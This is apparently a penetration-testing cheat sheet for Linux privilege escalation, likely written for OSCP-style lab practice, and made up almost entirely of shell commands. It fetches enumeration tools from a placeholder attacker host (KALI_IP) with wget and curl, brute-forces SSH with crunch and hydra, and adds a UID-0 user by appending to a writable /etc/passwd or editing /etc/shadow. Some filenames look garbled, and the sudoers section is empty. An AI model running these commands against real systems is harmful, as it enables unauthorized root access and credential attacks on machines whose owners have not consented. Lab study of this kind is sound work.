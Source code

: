 ```shell
# linpeas / lse
wget http://KALI_IP/linuxlinpeash.sh
wget http://KALI_IP/linux/lse.sh
# chmod u+x the scripts and run

# pspy
wget http://KALI_IP/linux/rpspy64.py
./pspy64 -r /bin,/etc,/home,/opt,/var,/usr,/tmp -pf -i 1000
# https://github.com/DominicBreuker/pspy
# https://systemweakness.com/6-vs-1-battle-my-oscp-strategy-dd23cc0e912b 
```
## pspy (hidden crons)
```shell
# 1 check daemon is running (if you cant find any crons in /etc/crontab or /etc/cron*)
ps -efw | grep -i "cron"

# 2 If running, run pspy64
cd /dev/shm
curl http://KALI_IP/linux/pspy64 -o pspy64
chmod +x ./pspy64
./pspy64
```
# ***Attacks***
## su
```
su SOMEUSER
```
## bruteforce user

```shell
# min 6 max 6 length password pattern
crunch 6 6 -t Lab%%% > wordlist
hydra -l eve -P wordlist  192.168.50.214 -t 4 ssh -V
```
## writeble /etc/passwd
***If you can write to /etc/passwd, you can add an arbitrary privileged user***
```shell
openssl passwd password
echo "root2:COPY_FROM_ABOVE:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
id
```
## writeable /etc/shadow
```shell
# 1 Make the password
mkpasswd -m sha-512 password

# 2 Backup the /etc/shadow
cp /etc/shadow /home/user/shadow.bak

# 3 Change the appropriate line

# 4 Login
su root
```
## writeable sudoers
```shell
```